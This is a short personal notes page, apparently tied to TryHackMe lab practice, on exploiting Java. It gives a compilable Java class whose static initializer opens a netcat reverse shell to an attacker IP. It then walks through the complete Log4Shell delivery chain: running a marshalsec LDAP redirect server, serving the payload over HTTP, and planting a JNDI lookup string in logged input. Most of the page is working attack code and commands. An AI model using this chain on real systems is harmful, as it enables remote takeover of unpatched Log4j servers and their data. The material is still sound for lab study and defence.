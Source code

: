 # Exploiting Java

**author**:: Nathan Acks  
**date**:: 2022-01-02

## Reverse Shell

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```java
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 is the IP you're catching the reverse shell at and 999 is the port of the listener. This can be compiled with:

```bash
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

* [Using "netcat"](netcat.md)

## Delivery with Log4Shell

Delivery through a vulnerable version of Log4j is done through a four step process: Malicious string → LDAP lookup → load Java code over HTTP → reverse shell.

A simple Java LDAP server that will handle redirects is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```bash
mvn clean package -DskipTests
```

And run with:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

Once that's done you'll just need to fire up a quick web server to serve the exploit code above and a netcat listener and then find a way to deliver the malicious string (`${jndi:ldap://1.2.3.4:1389/Exploit}`, where 1.2.3.4 is the `$ATTACKER_IP` above) somewhere it will be logged.

Note that a number of other protocols are supported besides LDAP (the marchalsec server supports a few).

* [TryHackMe: Exploiting Log4j](tryhackme-exploiting-log4j.md)
* [Quick-n-Dirty Python Web Server](quick-n-dirty-python-web-server.md)
